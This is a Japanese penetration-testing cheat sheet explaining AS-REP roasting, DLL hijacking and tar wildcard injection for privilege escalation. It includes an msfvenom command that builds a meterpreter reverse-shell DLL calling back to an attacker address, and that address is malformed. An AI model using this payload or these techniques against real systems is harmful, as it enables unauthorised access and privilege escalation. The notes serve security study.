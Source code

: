 # Windows

## AS-REP Roasting
**AS-REP roastingは、Kerberos pre authenticationなしでユーザからパスワードハッシュを取得できる攻撃**のことを指す。
Kerberosへの認証において、まずはAS-REQを送信するというステップがある。この要求に基づいてDCは認証成功を判断する。  
**認証に成功すると、DCはセッションキーとTGTを含むAS-REPを返す。**  
ユーザ名のパスワードとハッシュから生成したハッシュを使って暗号化されたタイムスタンプをAS-REQにのせてユーザの認証をDCに頼むという流れを、**Kerberos Pre Authentication**と呼ぶ。この機能が有効だとAS-REP roastingはできない。  
このKerberos pre authenticationがDC側で有効になっていない場合、攻撃者は任意のADユーザに代わってDCにAS-REQを返すよう要求ができる。

### 攻撃で使用できるツール
- Rubeus
- impacket-GetNPUsers
### 攻撃の条件
- DCのIPアドレスが分かっている
- AS-REQを送る際になりすますユーザの属するドメイン名が分かっている
- AS-REQを送る際になりすますドメインの、有効なユーザ名が分かっている
- Kerberosのポート(88番)と通信できる
- DC側の設定で、ターゲットユーザアカウントのKerberos pre authenticationが有効になっていない


## DLL Hijacking
.exeバイナリやそのバイナリに紐づいたサービスは、起動時にDLLを探す。  
**これらのDLLが存在しないかDLLが絶対パスを使わずに呼び出されるといったケースで、バイナリやサービスに悪意のあるDLLファイルを強制的にロード&実行させて権限昇格することができる。**  
  
msfvenom等でバイナリを生成し、DLLやバイナリを生成してリバースシェルを実行すると権限昇格に成功するなどできる。  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.293.22 LPORT=4444 -f dll -o hoge.dll
```


============-
# Linux

## ワイルドカードインジェクション  
### 概要
tarコマンドの第三引数に*が指定されている場合、そこに--checkpointを入れて任意のコマンド実行ができる。  
tarがバックアップ用のスケジュールタスクだったり、root権限で実行されるようなタスクであった場合、root権限で実行して権限昇格できたりする。  
tarが圧縮するファイルのフォルダのとこに書き込み権限が無いといけない。
### 参考情報
[ワイルドカードインジェクション1](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)  
[ワイルドカードワイルインジェクション2](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)  

### 攻撃の条件
- tarの引数に*が末尾に指定されている。
- root権限(スケジュールタスクでもいい)でtarが実行できる。
- tarが*で圧縮ファイル群を指定する時、この圧縮ファイルたちのフォルダにファイルを作れる必要がある。